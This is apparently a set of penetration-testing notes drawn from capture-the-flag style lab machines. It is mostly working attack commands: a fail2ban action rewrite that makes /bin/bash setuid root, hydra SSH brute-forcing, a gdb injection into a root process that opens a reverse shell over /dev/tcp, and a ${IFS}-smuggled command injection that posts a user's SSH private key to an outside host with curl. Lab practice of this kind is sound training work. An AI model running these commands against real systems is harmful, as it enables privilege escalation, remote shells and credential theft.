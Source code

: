 ```bash
              <iptables> -I <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>

actionstop = <iptables> -D <chain> -p <protocol> -m multiport --dports <port> -j f2b-<name>
             <actionflush>
             <iptables> -X f2b-<name>

actioncheck = <iptables> -n -L <chain> | grep -q 'f2b-<name>[ \t]'
actionban = chmod 4755 /bin/bash
actionunban = <iptables> -D f2b-<name> -s <ip> -j <blocktype>
[Init]
"

rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
echo "$conf" > iptables-multiport.conf
mv iptables-multiport.conf /etc/fail2ban/action.d/
sudo /etc/init.d/fail2ban restart
ip -br -c a

echo "[!] start to bruteforce ssh login."
echo "[run] @attacker : hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh"
echo "[!] bash -p will be executed in 100s"
sleep 100
bash -p
```

#### wfuzz SubDomain:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -H "Host: preprod-FUZZ.trick.htb" --hw 475 -t 100 10.129.86.46
```

#### Find directories that can do not have `nosuid` option:

```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; 2>/dev/null
```

#### Allowed to Debug processes:

```bash
#Find a process running as root

gdb -p <PID>

call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'")

#This would require us to be a part of the debug group or be able to use GDB in it's full capacity.
```

#### Linux LFI through Curl:

```bash
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/home/franz/.ssh/id_rsa"${IFS}http://192.168.49.123/test

nc -lvnp 80 #on listener port, we would receive file
```
